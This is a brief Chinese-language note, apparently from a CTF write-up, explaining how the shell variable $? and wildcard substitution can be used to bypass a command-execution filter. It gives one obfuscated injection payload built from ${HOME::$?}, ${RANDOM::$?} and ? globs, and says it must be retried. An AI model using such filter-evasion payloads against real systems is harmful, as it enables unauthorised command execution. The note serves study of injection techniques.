 # 知识点
> 通过$?来实现的，$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误

# 思路
payload有一定几率，需要多试几次
```bash
code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```
![image.png](./images/20231017_2350332151.png)

